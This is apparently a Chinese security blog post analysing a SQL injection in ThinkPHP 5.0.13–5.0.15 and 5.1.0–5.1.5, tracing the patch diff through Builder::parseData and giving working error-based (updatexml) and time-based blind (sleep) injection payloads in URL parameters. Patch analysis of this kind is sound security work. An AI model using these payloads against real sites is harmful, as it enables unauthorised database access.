

2018年3月26日tp进行了一次安全更新。


本次更新大佬们立马找到了漏洞点并给出了paylaod：

```
public/index.php/index/index/?username[0]=inc&username[1]=updatexml(1,concat(0x7e,user(),0x7e),1)&username[2]=1
```

本篇文章主要分析漏洞存在点的定位，payload的构造。分析一下大佬们是怎么处理开源cms安全更新，并构造exp的。

涉及版本：**5.0.13<=ThinkPHP<=5.0.15** 、 **5.1.0<=ThinkPHP<=5.1.5** 。


## 1.Tp5.0.16的安全更新：


```php
case 'inc':
			 $result[$item] = $item . '+' . floatval($val[2]);
```


```php
case 'inc':
       if ($key == $val[1]) {	                        
           $result[$item] = $item . '+' . floatval($val[2]);
       }
```

本次更新对library/think/db/Builder.php中获取到的参数增加了判断：判断输入值必须和数据库字段值相等才能进行下一步的代码拼接。

从这个点可以判断本次安全更新极大可能与sql注入有关。


### Inc,dec,exp函数解析：
可以参考官方文档：


这三个方法主要用在sql链式操作。

用法示例：

````php
// score 字段加 1
Db::table('think_user')->where('id', 1)->setInc('score');

// score 字段减 1
Db::table('think_user')->where('id', 1)->setDec('score');

//选择id=1，3，8三个值的列
where('id','exp',' IN (1,3,8) ');
//exp查询的条件不会被当成字符串，所以后面的查询条件可以使用任何SQL支持的语法，包括使用函数和字段名称。

//综合使用
Db::table('data')
    ->where('id',1)
    ->inc('read')
    ->dec('score',3)
    ->exp('name','UPPER(name)')
    ->update();
//该语句的意思是查询data表并将id=1的列字段值score+3，并将name值改为大写。
````


## 2.产生sql注入的原因

### 用到parseData()函数的地方

根据官方的更新判断出本次更新和sql注入有关，涉及的函数为`parseData()`全局搜索用到该函数的地方：


### builder类的insert()用到了parseData()

其中builder类的insert方法用到了该函数，并将该函数解析的数据拼接到了`$sql`参数中，

```php
public function insert(array $data, $options = [], $replace = false)
    {
        // 分析并处理数据
        $data = $this->parseData($data, $options);
        if (empty($data)) {
            return 0;
        }

//        返回数组的所有键值，返回值为数组
        $fields = array_keys($data);
//        返回数组的所有的值
        $values = array_values($data);

				/***********重点***********/
//        通过替换的方式拼接sql语句
//        将$this->insertSql中的['%INSERT%', '%TABLE%', '%FIELD%', '%DATA%', '%COMMENT%']依此替换为获取的值
//        该处并没有任何过滤函数
        $sql = str_replace(
            ['%INSERT%', '%TABLE%', '%FIELD%', '%DATA%', '%COMMENT%'],
            [
                $replace ? 'REPLACE' : 'INSERT',
                $this->parseTable($options['table'], $options),
//                用'，'链接所有数组元素。所以这里将data数组中的键值变为了','链接的字符串
                implode(' , ', $fields),
                implode(' , ', $values),
                $this->parseComment($options['comment']),
            ], $this->insertSql);

        return $sql;
    }
```

所以现在大概可以确定insert方法存在sql注入，会将输入的参数直接拼接返回sql语句。


### tp框架内置insert函数分析：

tp内使用insert()添加数据时，使用的insert()函数调用了builder类的insert()函数。

```php
public function insert(array $data = [], $replace = false, $getLastInsID = false, $sequence = null)
    {
        // 分析查询表达式
        $options = $this->parseExpress();
        $data    = array_merge($options['data'], $data);
        
  
  			/****************重点**************/
  			//将获取到的data数组，用builder类的insert方法处理生成sql语句
     
  			// 生成SQL语句
        $sql = $this->builder->insert($data, $options, $replace);
  
  
        // 获取参数绑定
        $bind = $this->getBind();
        if ($options['fetch_sql']) {
            // 获取实际执行的SQL语句
            return $this->connection->getRealSql($sql, $bind);
        }

        // 执行操作
        $result = 0 === $sql ? 0 : $this->execute($sql, $bind);
        if ($result) {
            $sequence  = $sequence ?: (isset($options['sequence']) ? $options['sequence'] : null);
            $lastInsId = $this->getLastInsID($sequence);
            if ($lastInsId) {
                $pk = $this->getPk($options);
                if (is_string($pk)) {
                    $data[$pk] = $lastInsId;
                }
            }
            $options['data'] = $data;
            $this->trigger('after_insert', $options);

            if ($getLastInsID) {
                return $lastInsId;
            }
        }
        return $result;
    }

```

tp的insert方法会将得到数组数据放入builder类的insert方法生成sql语句。


### builder类的insert()方法则调用了parseDate()函数：


所以确定输入点为tp框架的insert方法。


后面测试update()方法也能触发该漏洞，username[0]=inc和dec都可以。


所以流程为：

```
tp框架insert()-->builder类insert()-->builder类parseDate()

parseDate函数处理数组[0]=dec或inc时：会将数组[1]和数组[2]拼接
拼接返回的sql语句最终在tp框架insert方法中执行
```


## 3.构造paylaod:

### parseDate（）方法

```php
 protected function parseData($data, $options)
    {
//        data数据为空则赋值为空数组
        if (empty($data)) {
            return [];
        }

        // 获取绑定信息
        $bind = $this->query->getFieldsBind($options['table']);
        if ('*' == $options['field']) {
            $fields = array_keys($bind);
        } else {
            $fields = $options['field'];
        }

        $result = [];

//       循环处理data数组的值，将data数组的值存入val数组
        foreach ($data as $key => $val) {
            $item = $this->parseKey($key, $options);
//            如果是一个对象且存在__toString()函数，则赋值为toString的值
            if (is_object($val) && method_exists($val, '__toString')) {
                // 对象数据写入
                $val = $val->__toString();
            }

            if (false === strpos($key, '.') && !in_array($key, $fields, true)) {
                if ($options['strict']) {
                    throw new Exception('fields not exists:[' . $key . ']');
                }
            } elseif (is_null($val)) {
              
              $result[$item] = 'NULL';

                /***************重点***************/
                //输入的数组值不为空，则检查数组[0]是否为exp,inc,dec ，如果是inc与dec则进行拼接
                //拼接方式为：值1.+.值二
                /*所以此时构造的payloaf为数组
                arr[0]=inc&arr[1]=exp&arr[2]=exp
                */
            } elseif (is_array($val) && !empty($val)) {
                switch ($val[0]) {
                    case 'exp':
                        $result[$item] = $val[1];
                        break;
                    case 'inc':
                    /*floatval为获取变量的浮点值*/
                        $result[$item] = $this->parseKey($val[1]) . '+' . floatval($val[2]);
                        break;
                    case 'dec':
                        $result[$item] = $this->parseKey($val[1]) . '-' . floatval($val[2]);
                        break;
                }
            } elseif (is_scalar($val)) {
                // 过滤非标量数据
                if (0 === strpos($val, ':') && $this->query->isBind(substr($val, 1))) {
                    $result[$item] = $val;
                } else {
                    $key = str_replace('.', '_', $key);
                    $this->query->bind('data__' . $key, $val, isset($bind[$key]) ? $bind[$key] : PDO::PARAM_STR);
                    $result[$item] = ':data__' . $key;
                }
            }
        }
        return $result;
    }
```


### 根据parseData方法得到payload必须满足的条件：

```
输入值为数组，
payload格式为：arr[0]=inc&arr[1]=exp&arr[2]=数字
```

因为是insert注入，所以采用报错注入的方式，构造payload为：

```
arr[0]=inc&arr[1]=updatexml(0x7e,user(),0x7e)&arr[2]=1
```


此时需要找一个payload输入点，insert注册功能处就有。


### 简单写一个注册demo:

tp5.0.1/application/index/controller/Register.php

```php
<?php
namespace app\index\controller;
use app\index\model\Users;
use think\View;
use think\Controller;


class Register extends Controller{
    public function index(){
        $view = new View();
        return $view->fetch('index');
    }
    
    public function register(){
        //实例化User
        $user = new Users();
        //接收前端表单提交的数据

        $user->username = input('post.username');
        $user->sex = input('post.sex');
        $user->password = input('post.password');

        $result=array(

            "username"=>$user->username,
            "sex"=>$user->sex,
            "password"=>$user->password
        );

        db('users')->insert($result);
        return 'Update success';

    }


}
```


tp5.0.1/application/index/view/register/index.html

```php+HTML
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>注册</title>
</head>
<body>
<div id="regist_form">
    <dl>
        <form action="/tp5.0.1/public/index.php/index/register/register" method="post">
                <h1>注册页面</h1>

                <p>用户名:<input type="text" name="username"></p>
                <p>性别:<input type="text" name="sex"></p>
                <p>密码:<input type="text" name="password"></p>

                <input type="submit" name="submit" value="Submit">

        </form>
    </dl>
</div>
</body>
</html>
```


发现在接受数据处必须要这样写：

```php
$user->username = input('post.username/a');
```

才能触发注入.....可是大多数时候程序员都不会这样写吧，直接接收一个数组....

/a修饰符官方解释：


添加/a尝试提交数据注入尝试：


### 直接对注册接口提交payload


感觉这个漏洞比较鸡肋必须要满足用户接收一个数组输入时才能触发，一般的功能点也不会这样写，但是也不一定吧，遇到的时候可以多尝试。


### 在debug没开启时可以通过时间盲注的形式获取数据，paylaod:

```sql
?username[0]=inc&username[1]=sleep(5)&username[2]=1

http://127.0.0.1:8888/tp5.0.1/public/index.php/index/index/?username[0]=inc&username[1]=If(ascii(substr(database(),1,1))=115,1,sleep(3))&username[2]=1
```


## 4.官方修复原理

输入的val[1]必须和字段值相等才会进行拼接，字段值不可能为paylaod:updatexml(0x7e,user(),0x7e);等注入语句，也就修复了注入问题。



